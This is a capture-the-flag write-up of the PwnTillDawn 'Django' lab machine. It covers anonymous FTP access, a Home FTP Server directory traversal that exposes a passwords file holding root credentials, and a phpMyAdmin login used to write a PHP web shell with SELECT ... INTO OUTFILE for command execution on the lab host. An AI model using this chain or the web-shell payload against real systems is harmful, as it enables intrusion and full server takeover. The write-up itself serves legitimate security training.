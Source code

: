 ```yaml
---
title: Django Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-28 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, exploit-db, ftp, phpmyadmin, php rce]
math: true
mermaid: true
---
```


![image](https://user-images.githubusercontent.com/67085453/143782183-182fa254-95bd-4914-bcb2-278f12a3eda4.png)<br><br>

**> Information Gathering**<br>
In every engagement, one has to gather information first. As usual we run our nmap scan and from we can see that port 21 (ftp), 80 (http), 443 (ssl), 3306 (mysql) & 8089 (splunkd) are open.<br>
![image](https://user-images.githubusercontent.com/67085453/143782188-0e6f1c6a-177f-4f32-b326-2210b048a601.png)<br>

FTP service running on the target has anonymous login enabled. So we log in with `anonymous` as a username and continued to gather more information.<br>
![image](https://user-images.githubusercontent.com/67085453/143782193-998e0ce4-e8b7-40ae-bc06-de7feb8d8f60.png)<br>

During the anonymous login, FTP printed the banner `220-Wellcome to Home Ftp Server!`. This banner does not look like the usual banner on FTP services. This is interesting to look at could be a different ftp sofware installed on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782198-aed0d1d8-a8bd-4c48-bec4-c417c6079df9.png)<br>

A quick research on google shows that some version of `Home Ftp Server!` are vulnerable and there are some exploits out there.<br>
![image](https://user-images.githubusercontent.com/67085453/143782209-d66f3f9a-6bae-4a39-8cea-08937c988cec.png)<br>

We found an exploit on <a href="https://www.exploit-db.com/exploits/15349">Exploit-DB</a> which states that `Home FTP Server version 1.11.1.149` has `Directory Traversal` vulnerability. <br>
![image](https://user-images.githubusercontent.com/67085453/143782221-7dce38e4-2619-464a-9050-a6f13b469a0c.png)<br>

To exploit this vulnerability, all we need to do is to apply `/..` to the path and we can retrieve files or navigate directories. <br>
![image](https://user-images.githubusercontent.com/67085453/143782261-e0d2440d-6184-4d29-973e-27857d8eaa64.png)<br>

Typing `cd /..` takes us to the root path as seen in teh screenshot above. Indeed this version is vulnerable to `Directory Traversal`. After a couple of minutes, i found a `passwords.txt` file in the `/../xampp` directory and quickly grabbed this file to my machine. <br>
![image](https://user-images.githubusercontent.com/67085453/143782281-c9e6163d-ca6d-458e-bfb4-9d134a506dde.png)<br>

Reading the contents of `passwords.txt` revealed credentials to `MySQL (phpMyAdmin)`. The credentials found was `root:thebarrierbetween`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782293-2d934d99-50cc-4921-952d-30f772351b56.png)<br>

From nmap we know that this target has a webserver running on port 80. Browsing to port 80 we can see the default page of xampp webapp. This is no suprpise since we saw xampp from FTP session<br>
![image](https://user-images.githubusercontent.com/67085453/143782297-855aaeea-7b7f-4911-8541-5ebab092007a.png)<br>

On the upper-right corner on the dashboard we can see `phpMyAdmin`. Clicking on it leads us to `phpMyAdmin` login page. <br>
![image](https://user-images.githubusercontent.com/67085453/143782302-b13f94e1-569b-4f0d-8db6-6af9f8ee7677.png)<br>

We have the credentials already. I input the credentials `root:thebarrierbetween` on the login page.<br>
![image](https://user-images.githubusercontent.com/67085453/143782329-3679b60e-d2ed-46bb-ad88-45164bb76bef.png)<br>

A successful login should lead you to the admin dashboard. Remember you logged in as `root` user so we have full control over the database. There is a 90% chance that we can use `SQL Query` to create  a `php backdoor`.<br>
![image](https://user-images.githubusercontent.com/67085453/143782333-aa8a1e32-8d2b-4ac8-8990-88b082b5503d.png)<br>  

Click on `SQL`, and type the following query `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"` from ftp, we can confirm the path of `xampp` on the target. Click on `go` to create our backdoor.<br>
![image](https://user-images.githubusercontent.com/67085453/143782341-e9e3c7b1-5860-4661-997f-752d7cd4453c.png)<br>

Log into `FTP` again, navigate to the `/../xampp/htdocs` directory to check if your file `backdoor.php` exists. If it exists, then we are 2 steps away from gaining `code execution` on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143782348-2eeb504a-c02d-4c84-8b67-cb559b0ae626.png)<br>

Navigate to http://10.150.150.212/backdoor.php?cmd=whoami and we have `code execution` on the target. You can replace `whoami` in the url with any windows commands. Good luck getting shell.<br>
![image](https://user-images.githubusercontent.com/67085453/143782353-db573f36-5613-487e-a99c-e8854b0f31de.png)<br> 


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
